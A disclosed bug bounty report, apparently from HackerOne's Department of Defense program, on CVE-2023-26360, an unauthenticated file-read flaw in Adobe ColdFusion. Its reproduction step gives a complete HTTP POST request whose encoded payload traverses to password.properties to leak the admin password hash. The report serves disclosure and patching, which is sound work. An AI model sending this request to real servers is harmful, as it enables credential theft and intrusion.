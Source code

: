 # Unauthenticated File Read Adobe ColdFusion

## Report Details
- **Report ID**: 2248781
- **URL**: https://hackerone.com/reports/2248781
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-11-11T17:02:47.273Z
- **Disclosed**: 2023-12-21T17:33:42.175Z

## Reporter
- **Username**: r00tdaddy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Unauthenticated Arbitrary File Read vulnerability due to de serialization of untrusted data in Adobe ColdFusion.

## Impact

The impact of this vulnerability could result in unauthorized access to sensitive data and actions within the affected Adobe ColdFusion instances.

## System Host(s)
█████████

## Affected Product(s) and Version(s)
The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update 15 and earlier

## CVE Numbers
CVE-2023-26360

## Steps to Reproduce
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=wizardHash&_cfclient=true&returnFormat=wddx&inPassword=foo HTTP/1.1
Host: ███
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 121
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

_variables=%7b%22_metadata%22%3a%7b%22classname%22%3a%22i/../lib/password.properties%22%7d%2c%22_variables%22%3a%5b%5d%7d

Password hash is disclosed in the response:

## Suggested Mitigation/Remediation Actions
Apply the necessary security patches or updates provided by Adobe to fix the vulnerability.



## Attachments
No attachments
